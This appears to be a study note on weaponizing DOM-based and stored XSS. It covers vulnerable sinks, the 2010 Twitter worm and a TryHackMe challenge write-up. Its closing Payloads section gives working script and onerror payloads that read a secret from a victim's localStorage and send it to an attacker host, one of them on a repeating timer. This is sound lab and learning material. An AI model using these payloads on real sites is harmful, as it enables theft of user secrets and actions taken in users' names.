 
To weaponize DOM-based XSS, we need to rely on the two conventional delivery methods of XSS payloads, namely storage and reflection. This is why DOM-based XSS, and other DOM-based attacks for that matter, are so hard to exploit. Without a proper delivery method, you are performing the attack on yourself and not a target.

To counter this, we either need the web server to store our payload for later delivery or to deliver the payload through reflection. At this point, our DOM-based XSS becomes a Stored or Reflected XSS attack.

Modern browsers have introduced **URL encoding** mechanisms, making **reflected XSS** harder to exploit when the source is the URL. This means that many traditional reflected XSS attacks fail because special characters (like `<script>`) are automatically encoded, preventing script execution.

As a result, **stored XSS** becomes a more viable attack vector, as it does not rely on URL-based reflection but rather on **persistent data stored on the server**.

Since stored XSS involves **injecting malicious scripts into stored user data**, attackers look for **sinks** where this data is later used **without sanitization or validation**. Potential sources include:
- **User profiles** (e.g., username, bio, comments, status updates).
- **Forum posts or reviews** where user content is stored and displayed.
- **Chat applications** that persist messages and display them dynamically.
- **Admin dashboards** that render user-submitted content.

 *Key Factors in Identifying Vulnerable Sinks*
- **Is the user input being properly escaped before rendering?** If not, it could lead to script execution.
- **Which function is injecting the data into the page?** If `innerHTML` or `document.write` is used, it’s a high-risk sink.
- **Is the data being processed by JavaScript after retrieval?**  If so, it could lead to **DOM-based stored XSS**.

## General Weaponization Guidelines
Oftentimes, you will find that it is easy to get the coveted `alert('XSS')` payload to work. However, this is usually where the fun ends, and if we are being honest with ourselves, we haven't actually shown impact.

The next crutch that is often used is to attempt to steal the user's cookie. However, this quickly becomes a problem when cookie security is enforced by using the HTTPOnly flag, disallowing JavaScript from recovering the cookie value. We need to dive deeper to weaponize the XSS vulnerability to achieve a valid exploit and show the true impact of what was found.

The following is a [great article](https://labs.withsecure.com/blog/getting-real-with-xss/) that talks about XSS weaponization. To fully weaponize XSS, we first need to realize the power of what we have. At the point where we can fully execute XSS and load a staged payload, we can control the user's browser. This means we can interface with the web application as the user would. We don't need to pop an alert or steal the user's cookie. We can instruct the browser to request on behalf of the user. This is what makes XSS so powerful. Even if you find XSS on a page where there isn't really anything sensitive, you can instruct the browser to recover information from other, more sensitive pages or to perform state-changing actions on behalf of the user. All we need to do is understand the application's functionality and tailor our XSS payload to leverage and use this functionality to our advantage. Let's take a look at a case study.


## Case Study - Twitter
In 2010, it was discovered that Twitter (now [X](https://twitter.com/?lang=en)) had a DOM-based XSS vulnerability. In an update to their JavaScript, Twitter introduced the following function:

```javascript
//<![CDATA[ (function(g){var a=location.href.split("#!")[1];if(a){g.location=g.HBR=a;}})(window); //]]>
```

Effectively, the function searched for `#!` in the URL and assigned the content to the `window.location` object, creating both a source and a sink without proper data validation and sanitisation. As such, an attacker could get the coveted pop-up simply using this payload:

`http://twitter.com/#!javascript:alert(document.domain);`

As mentioned before, this wouldn't really do anything. However, the issue was weaponised by [threat actors](https://archive.f-secure.com/weblog/archives/00002035). The vulnerability was weaponised using the `onmouseover` JavaScript function to create a worm that would:

- Retweet itself to further spread to new users
- Redirect users to other websites, in some cases containing further malicious payloads.
- Display pop-ups and other intrusive behaviours that could potentially phish for personal information.  

In the end, the weaponised exploit affected thousands of users. It is worth remembering that this was in 2010. If such a bug were found today, the impact would be even larger.


## Challenge
Also consider this challenge write-up: https://github.com/cyberterms/tryhackme-write-ups/blob/main/DOM-Based_Attacks/write-up.md  

![](Pasted%20image%2020250205160028.png)
	![](Pasted%20image%2020250205160130.png)
		![](Pasted%20image%2020250205160330.png)
			![](Pasted%20image%2020250205160514.png)


### **Payloads**

- Script for stealing victim's secret that is stored in browser local.storage:
```javascript
<script>fetch('http://{YOUR_IP}:8000/?data='+encodeURIComponent(localStorage.getItem('secret')))</script>
```

- XSS payload 
```javascript
<img src="1" onerror="fetch('http://{YOUR_IP}:8000/?secret='+encodeURIComponent(localStorage.getItem('secret')))">
```

- We have to set a delay interval to wait for our victim 
```javascript
<img src="1" onerror="setInterval(()=>fetch('http://{YOUR_IP}:8000/?secret='+encodeURIComponent(localStorage.getItem('secret'))), 6000)">
```

![](Pasted%20image%2020250205163520.png)
	![](Pasted%20image%2020250205163702.png)

secret: `thisisthesupersecretvalue` (modify the cookie value in the local storage in order to be able now to perform delete actions via API delete request)
	![](Pasted%20image%2020250205164338.png)
		![](Pasted%20image%2020250205164419.png)
			![](Pasted%20image%2020250205164450.png)